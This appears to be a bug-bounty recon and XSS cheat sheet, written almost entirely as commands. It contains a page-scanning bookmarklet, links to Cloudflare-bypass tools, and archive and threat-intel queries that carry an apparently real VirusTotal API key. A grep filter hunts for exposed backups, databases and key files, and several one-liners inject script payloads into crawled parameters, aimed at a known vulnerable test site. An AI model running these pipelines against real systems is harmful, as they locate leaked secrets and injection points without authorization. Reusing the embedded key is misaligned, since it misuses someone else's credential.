 # web_eb

```javascript
javascript:void(function(){let e=document.createElement('div');e.style.cssText='position:fixed;bottom:0;left:0;width:100%;height:300px;background:#1a1a1a;color:#00ff00;z-index:999999;padding:20px;overflow:auto;font-family:monospace;';e.innerHTML='<h3%20style="color:#00ff00">%F0%9F%94%8D%20BlackLine%20Scanner</h3><div%20id="results">Scanning...</div>';document.body.appendChild(e);let%20currentDomain=window.location.hostname;let%20foundUrls=new%20Set();function%20findUrls(){let%20urls=[];let%20sources=[...document.getElementsByTagName('a'),...document.getElementsByTagName('script'),...document.getElementsByTagName('img'),...document.getElementsByTagName('link'),...document.getElementsByTagName('form')];sources.forEach(element=>{if(element.href)urls.push(element.href);if(element.src)urls.push(element.src);if(element.action)urls.push(element.action);});let%20content=document.documentElement.innerHTML;let%20urlPattern=/(?:url\(|href="|src="|action="|url:|endpoint:|path:|route:)\s*['"]?([^'"\)\s>]+)/gi;let%20match;while((match=urlPattern.exec(content))!==null){if(match[1]&&!match[1].startsWith('data:'))urls.push(match[1]);}let%20scriptPattern=/"[^"]*"|'[^']*'/g;let%20scripts=document.documentElement.innerHTML.match(scriptPattern)||[];scripts.forEach(script=>{let%20urlMatches=script.match(/(?:\/[a-zA-Z0-9_-]+)+(?:\.[a-zA-Z0-9]+)?/g)||[];urlMatches.forEach(url=>urls.push(url));});performance.getEntriesByType('resource').forEach(entry=>urls.push(entry.name));return[...new%20Set(urls)];}let%20allUrls=findUrls();allUrls.sort();document.getElementById('results').innerHTML=`%20<div%20style="margin:10px%200;color:#00ff00">%E2%9C%85%20Found%20${allUrls.length}%20URLs%20&%20Endpoints%20on%20${currentDomain}</div>%20<div%20style="background:#2a2a2a;padding:10px;border-radius:5px">%20${allUrls.map(url=>`<div%20style="color:white;margin:5px%200;padding:5px;background:#333;border-radius:3px;word-break:break-all">${url}</div>`).join('')}%20</div>`;})();
```

- __[1 Cloudflare Bypass](https://github.com/sarperavci/CloudflareBypassForScraping)__
- __[2 Cloudflare Bypass](https://github.com/christophetd/CloudFlair.git)__


### RECON METHOD BY ~/.COFFINXP
```php
https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original

https://www.virustotal.com/vtapi/v2/domain/report?apikey=982680b1787fa59701919aa22515a025e00df1e3bb2bc4f186b8e919558d576c&domain=example.com

https://otx.alienvault.com/api/v1/indicators/hostname/domain.com/url_list?limit=500&page=1

curl -G "https://web.archive.org/cdx/search/cdx" --data-urlencode "url=*.example.com/*" --data-urlencode "collapse=urlkey" --data-urlencode "output=text" --data-urlencode "fl=original" > out.txt

cat out.txt | uro |  grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5|\.exe|\.dll|\.bin|\.ini|\.bat|\.sh|\.tar|\.deb|\.rpm|\.iso|\.img|\.apk|\.msi|\.dmg|\.tmp|\.crt|\.pem|\.key|\.pub|\.asc'
```

### xss oneliner

```
echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | urldedupe -s | grep -IE "[?].*[&]?" | grep "=" | unew -p | pvreplace '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' | xsschecker -match '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' -vuln
```

- ```echo "testphp.vulnweb.com" | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln```

- `echo "testphp.vulnweb.com" | katana -passive -pss waybackarchive,commoncrawl,alienvault | uro | gf xss | Gxss -p XSSRef | dalfox pipe`

- `subfinder -d testphp.vulnweb.com -all -silent | katana -passive -pss waybackarchive,commoncrawl,alienvault | uro | gf xss | Gxss -p XSSRef | dalfox pipe`
  __Tools used__
- __[waybackurls](https://github.com/tomnomnom/waybackurls.git)__
- __[urldedupe](https://github.com/ameenmaali/urldedupe.git)__
- __[unew](https://github.com/rix4uni/unew)__
- __[pvreplace](https://github.com/rix4uni/pvreplace)__
- __[xsschecker](https://github.com/rix4uni/xsschecker)__
